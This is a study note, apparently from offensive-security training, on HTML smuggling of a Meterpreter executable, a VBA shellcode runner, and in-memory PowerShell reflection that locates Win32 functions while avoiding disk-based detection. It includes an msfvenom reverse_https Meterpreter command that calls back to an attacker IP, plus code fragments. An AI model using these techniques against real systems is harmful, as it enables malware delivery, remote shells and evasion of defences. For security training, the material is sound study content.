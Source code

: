 # HTML Smuggling

Usual technique for download file is to add **download** attribute tag act as a hyperlink to automatically download file when user click

```hmtl
<html>
   <body>
   <a href="/msfstaged.exe" download="msfstaged.exe">DownloadMe</a>
   </body>
</html>
```

Step for without user interactive.

1) Create Base64 Meterpreter Executable and store as Blob
2) Use Blob to create URL file object that simulates a file on the web server
3) Create an insivible anchor tag trigger download action once load pages

For google chrome we can use window.URL.createObjectURL, however for microsoft edge it does not support URL.createObjectURL() to download.
IE and Edge have their own APIs for creating and downloading files, which are called `msSaveBlob` or `msSaveOrOpenBlob`

# VBA Shellcode Runner

Piece of code execute in memory.

Require appraoch three win32 APIs from kernel32.dll: *virtualAlloc*, *RtMoveMemory* and *CreateThread*

Use *virtualAlloc* to allocate unmanaged memory that is writable, readable and executable.  
use *RtMoveMemory* to copy the shellcode into the newly allocated memory  
use *CreateThread* to create a new execution thread in the process to execute the shellcode.  

```
LPVOID VirtualAlloc(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
);
```
### Paramter explaination

*lpAddress* is the memory location address, if leave it set to "0", the API will choose the location.  
*dwSize* indicate the size of the location  
*flAllocationType and flProtect* indicate the allocation type and the memory protections.

### Data type in VBA
*LPVOID* can be represent as *LongPtr* in VBA.  
*DWORD* and *SIZE_T* are integers can be represent as *Long* in VBA.  

### Declare statement
```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```
*PtrSafe is a keyword to asserts that a Declare Statement is safe to run in x64 environment*

### Creating payload

First use msfvenom to create payload, even though the target machine is 64-bit, but the microsoft office installed in 32-bit application, so generate 32-bit shellcode

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.81 LPORT=443 ExitFunc=thread -f vbapplication
```

Add array to the VBA code.

### Setting argument for VirtualAlloc

lpaddress - Set the value "0" which will leave the memory allocation to the API.  

  
DwSize - Can be hard coded the length of the payload, however need to change again, if another payload is used. To set it dynamically, use the *Ubound* to get the size of the array containing the shellcode.  

  
fkAllocationType - Set as *0x3000* which equates to the allocation type enums of **MEM_COMMIT** and **MEM_RESERVE**. This will make the OS allocate the desired memory for us and make it available. In VBA, this will be represented as &H3000.  

  
flProtect - set to &H40(0x40) indicating the memory is able to read write execute.  

### RtlMoveMemory

Destination - Points to the newly allocated buffer.

Source - address of an element from the shellcode array

Length - the length of the source.

### CreateThread.

Most the argument in CreateThread are not needed and can set them to O.

The third argument LPstartAddress is the start address for the code execution and must be the address of our shellcode buffer. 


# Keep powershell in memory

### Leveraging unSafeNativeMethods

In windows powershell, there are three ways to interact with Windows API functions:

1) Use the *Add-Type* cmdlet to compile c# code.
2) get a reference to a private type in the .NET framework that calls the method
3) **Use reflection to dynamically define a method that calls the Windows API function**

**Our shellcode runner located the function, specified data types, and invoke the function.**

2 Way for locate the function.

One way is to locate functions in unmanged dynamic link libraries. The original technique based on *Add-Type* and *Dllimport*. However, this method calls the csc compiler, which writes to disk will trigger detection. we want to operate it in completely in-memory.

Another way is known as dynamic lookup, Creates the .NET assembly in memory instead of writing code and compiling it.

To perform dynamic lookup of function address, we need 2 special win32 APIs *GetModuleHandle* and *GetProcAddress*.

*GetModuleHandle* gets the handle of the specified DLL.
```
[DllImport("kernel32")]
public static extern int GetModuleHandle(string lpModuleName);
```
*GetProcAddress* will take the variable of the handle and output the memory address

```
FARPROC GetProcAddress(
HMODULE hModule, // DLL模块句柄
LPCSTR lpProcName // 函数名
);
```

With these 2 function we are able to allocate any API.
However with the above function, we must invoke them without using *Add-Type*

```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Contains('Unsafe')
          }
      } 2> $null
    }
 ```

The *GetAssemblies* gets the preloaded assemblies in the powershell process.
Each assemblies is a object, use a ForEach-Object to loop through all the object.
Next we use *Get-Types* ifor reach object through the $_ (current object)

when c# code want to directly invoke the WIN32 API, it must provide the Unsafe Keyword,
Knowing this, we perform another *ForEach-Object* loop on all the discovered object and Invoke Get-Member cmdlet with the static flag to locate static properties or methods.

However, it produce multiple result. But one of the Class *Microsoft.Win32.UnsafeNativeMethods* Class have both our wanted function *GetModuleHandle* and *GetProcAddress*
we modify and search for the allocation and only the class

```
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.Location
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Equeals('Microsoft.Win32.UnsafeNativeMethods')
          }
      } 2> $null
    }
```

![image](https://user-images.githubusercontent.com/48197340/131511978-e6c5bf59-df3c-4f89-9d71-757c556313e9.png)

we are able to locate *GetModuleHandle* and *GetProcAddress*. However these methods are only meant to be used internally by the .NET code, this block us from calling them from powershell and C#.

Therefore we have to call it indirectly.

